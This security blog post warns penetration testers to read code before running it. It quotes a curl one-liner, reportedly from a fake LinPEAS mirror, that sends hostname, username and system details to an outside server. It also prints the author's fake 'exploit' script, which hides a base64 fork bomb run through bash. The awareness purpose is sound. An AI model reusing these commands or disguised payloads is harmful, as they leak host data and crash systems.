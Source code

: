 ```yaml
---
title: Read Before You Run
layout: post
image: "https://github.com/user-attachments/assets/134d2ea9-008e-4574-a909-45afd901265e"
author: "0xRar"
description: "Read the freaking code!, a post about how code literecy can also effect technical people."
tags:
- General
- OffSec
---
```


Hello hacker friends, today i wanted to talk to you all about something, offensive security operators/sys admins
still need to be careful of what they run, Let me tell you why.

A while ago i have noticed some fake Proof of Concept exploits on github that execute something other than what the 
vulnerabillity actually is e.g. apache version 2.xx.xx but the script is sending the content of `/home/user/.ssh/id_rsa`
to an attacker controlled server, which is the path to the secure shell(SSH) private key that can be used to connect 
remotely to the machine.

In the following sections i will show a few examples on how code literecy can be bad if the threat actor knew what to do.


## Fake LinPEAS Mirror

On Nov 27, 2024 someone by the name of [shadyeip] created a [github issue] on the original github repo
of LinPEAS (linux privilege escalation awesome scripts), reported that the the linpeas script hosted on
https://linpeas.sh/ is actually sending information about every linux machine it runs on using the following 
linux one liner.

```bash
curl -s "https://log.linpeas.sh/?uuid=$(cat /proc/sys/kernel/random/uuid)&id;=$(cat /var/lib/dbus/machine-id)&root;=$IAMROOT&hostname;=$(hostname)&user;=$(whoami)&uname;=$(uname -a | base64 -w 0)&cwd;=$(pwd | base64 -w 0)" > /dev/null 2>/dev/null
```
sends data such as:
- Machine ID
- Hostname
- Username
- Uname - to get all the information related to the Operating system on the host machine

Thankfully this whole thing appeared to be a reaseach project by the owner of the domain [hattonsec], and of course
this code will be really hard to analyze due to the size of the script.

The script was removed but you can find in: [Wayback Machine / Web Archive]

![Chillguy](https://github.com/user-attachments/assets/137b36cc-44ec-4333-ab0a-620b74c14c06)

[github issue]: https://github.com/peass-ng/PEASS-ng/issues/450
[shadyeip]: https://github.com/shadyeip
[hattonsec]: https://x.com/hattonsec
[Wayback Machine / Web Archive]: https://web.archive.org/web/20240902110620/https://linpeas.sh/

## A Simple fake PoC exploit made by me

For this example i made a simple a fake PoC written in python, lets say you are in a pentest and you found 
a vulnerable software running on the client's network, so you decide to go to github and look for an exploit
you find an exploit and you decide to clone it and run it without actually reading the code or understading 
what the vulnerabillity is.

"Exploit":
```python
import time
import distro
import subprocess

# A Proof of Concept privilege escalation exploit for ubuntu based hosts
# CVE: CVE-2025-0000
# Tested on: Ubuntu
# Author: 0xRar

def check_dist():
    if distro.id() == 'ubuntu':
        print('[+] Target is vulnerable.')
    else:
        print('[-] Target is not vulnerable :(')
        quit('Quitting... Try again next time')


def main():
    check_dist()
    print('[+] Getting the root shell ready for you !')
    time.sleep(5)

    # Executing the payload
    payload = 'OigpeyA6fDomIH07Og=='
    subprocess.run('id root', shell=True)
    subprocess.run(f'echo {payload} | base64 -d | bash', shell=True)


if __name__ == '__main__':
    main()
```

Despite the simplicity, if user does not decode the base64 they wouldn't know what it does, 
let me break it down

the code starts by creating a function `check_dist()` which checks if the target system distro is ubuntu
if that statement returns true it will print `[+] Target is vulnerable.` in order to trick the user in beliving its 
actually doing something moving on to the `main()` function; it goes on by running the `check_dist()` function,
sleeping and then initilizes a `payload` variable that decodes into a [fork bomb] `:(){ :|:& };:` and executes it.

whats a fork bomb? : in short a fork bomb is a defined function that calls it self and the pipes the result 
back into itself which will keep running as a background job because of the `&` creating an endless loop
of processes.

![fake poc](https://github.com/user-attachments/assets/755ff199-d5c2-4a6e-afaf-24341685e74b)

[fork bomb]: https://en.wikipedia.org/wiki/Fork_bomb


## Vibe Coding

Changing the topic one last time, vibe coding without actually understanding what the code is doing is even much worst
than you think, people actually started SaaS companies creating software and selling it and then realize their code base
is actually riddeld with vulnerabilities, AI for the most part is making something that works and thats about it, check
following real-life example: 

![VibeCoding](https://github.com/user-attachments/assets/ee9b3966-a14b-4474-b567-6276d5380deb)
image credits: [_zenman]

[_zenman]: https://x.com/_zenman

## Thank you for reading !

Thats it for this blog post thank you for reading, until next time.

Happy Hacking.
